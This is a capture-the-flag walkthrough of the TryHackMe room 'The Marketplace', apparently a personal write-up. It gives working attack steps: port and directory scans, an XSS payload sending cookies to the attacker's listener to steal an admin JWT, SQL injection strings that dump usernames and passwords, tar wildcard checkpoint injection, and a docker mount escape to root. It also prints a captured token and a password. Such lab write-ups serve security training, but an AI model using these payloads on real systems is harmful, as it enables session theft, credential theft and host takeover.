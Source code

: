 # The Marketplace

**Room Link:** [https://tryhackme.com/room/marketplace](https://tryhackme.com/room/marketplace)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (519).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (520).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:32768 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

## TCP/32768 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:32768 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (521).png" alt=""><figcaption></figcaption></figure>

## XSS - Steal JVT

[https://jwt.io/](https://jwt.io/)

<figure><img src="../../.gitbook/assets/image (522).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (523).png" alt=""><figcaption></figcaption></figure>





I tried updating the token it didn't work

<figure><img src="../../.gitbook/assets/image (526).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (527).png" alt=""><figcaption></figcaption></figure>



Next we're going to try to steal the JWT from another user.

**Kali**

```
nc -lvnp 4444
```

**Browser**

```
<script>document.location='http://$KALI:4444/XSS/grabber.php?c='+document.cookie</script>
```

<figure><img src="../../.gitbook/assets/image (530).png" alt=""><figcaption></figcaption></figure>

This was annoying because if I went to my posts it wouldn't work so I went to Jakes post and changed the number from 2 to 6 to get to the report page. Then just clicked the report button

<figure><img src="../../.gitbook/assets/image (531).png" alt=""><figcaption></figcaption></figure>

we got a token from a user that isn't us

<figure><img src="../../.gitbook/assets/image (533).png" alt=""><figcaption></figcaption></figure>



We can see it is from Michael who is an admin.

<figure><img src="../../.gitbook/assets/image (532).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (534).png" alt=""><figcaption></figcaption></figure>





Sent again but this time just forwarded the request so we could see what that script was doing

<figure><img src="../../.gitbook/assets/image (535).png" alt=""><figcaption></figcaption></figure>



The script was printing the flag

<figure><img src="../../.gitbook/assets/image (536).png" alt=""><figcaption></figcaption></figure>

This wasn't working before but after next time I went to this box tried I could just update the cookie from the browser and it worked.

<figure><img src="../../.gitbook/assets/image (537).png" alt=""><figcaption></figcaption></figure>

**Brower cookie**

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3MDE1MjgzODN9.O8218jJ0nmWedeewklX6fkb9sjlgH81ciU7dJG5l9YY
```



We add a order by and increase the number until we get an error to reveal how many fields there are.

<figure><img src="../../.gitbook/assets/image (538).png" alt=""><figcaption></figcaption></figure>

After 5 it give us an error so we know there are four fields

<figure><img src="../../.gitbook/assets/image (539).png" alt=""><figcaption></figcaption></figure>

We do a union select, first to try to show our 1s which isn't working because the first part of the statement runs successfully so theres no where to put our info

<figure><img src="../../.gitbook/assets/image (541).png" alt=""><figcaption></figcaption></figure>

To work around this we make the userid as 0 which probably doesn't exist and we can start seeing our 1s

<figure><img src="../../.gitbook/assets/image (542).png" alt=""><figcaption></figcaption></figure>

Get Version

<figure><img src="../../.gitbook/assets/image (547).png" alt=""><figcaption></figcaption></figure>



Get Database

<figure><img src="../../.gitbook/assets/image (548).png" alt=""><figcaption></figcaption></figure>





Get tables

```
UNION SELECT table_name,1,1,1 FROM information_schema.tables WHERE table_schema=database()
```

<figure><img src="../../.gitbook/assets/image (549).png" alt=""><figcaption></figcaption></figure>

Get All tables by concat

```
-1 UNION SELECT group_concat(table_name),1,1,1%20 FROM information_schema.tables WHERE table_schema =database()
```

<figure><img src="../../.gitbook/assets/image (550).png" alt=""><figcaption></figcaption></figure>





Get Columns for table users

```
-1%20UNION%20SELECT%20group_concat(column_name,column_type),1,1,1%20%20FROM%20information_schema.columns%20WHERE%20table_schema=marketplace
```

<figure><img src="../../.gitbook/assets/image (551).png" alt=""><figcaption></figcaption></figure>

Get Columns for table items

```
-1 UNION SELECT group_concat(column_name,column_type),1,1,1 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='items' AND table_schema='marketplace'
```

<figure><img src="../../.gitbook/assets/image (552).png" alt=""><figcaption></figcaption></figure>

Get Columns for table messages

```
-1 UNION SELECT group_concat(column_name,column_type),1,1,1 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='messages' AND table_schema='marketplace'
```

<figure><img src="../../.gitbook/assets/image (553).png" alt=""><figcaption></figcaption></figure>

Get Columns for table messages

```
-1%20UNION%20SELECT%20group_concat(message_content),1,1,1%20FROM%20messages
```

<figure><img src="../../.gitbook/assets/image (554).png" alt=""><figcaption></figcaption></figure>



Get usernames and passwords. The passwords aren't too useful at this point but now we have some usernames.

```
-1%20UNION%20SELECT%20group_concat(username,%27|%27,password),1,1,1%20FROM%20users
```

<figure><img src="../../.gitbook/assets/image (555).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (543).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (544).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (545).png" alt=""><figcaption></figcaption></figure>

## TCP/22 - SSH

**Kali**

```
ssh jake@$VICTIM
Password: @b_ENXkGYUCAv3zJ
```

<figure><img src="../../.gitbook/assets/image (546).png" alt=""><figcaption></figcaption></figure>

## **Lateral Movement**

**Exploit:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

Jake can run a backup script as michael. The script is using a wildcard which we manipulate.&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can trick the script to run this to get a shell by making empty files with similar names

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /opt/backups
mkdir priv
cd priv
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=sh shell.sh
vi shell.sh
```

**shell.sh**

```
#!/bin/bash

cp /bin/bash /opt/backups/michealbash;
chmod +xs  /opt/backups/michealbash;
```

**Victim**

```
chmod +x shell.sh 
rm -f ../backup.tar 
sudo -u michael /opt/backups/backup.sh 
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## **Privilege Escalation**

**Victim(micheal)**

```
id
find / -name docker.sock 2>/dev/null
docker images
docker run -it -v /:/host/ alpine chroot /host/ sh
```

michael is part of the docker group so it appears we're in a pod

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There a few images to test from. I just ran the last command above and changes the image name until it worked. Exploit worked with nginx and mysql images as well.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

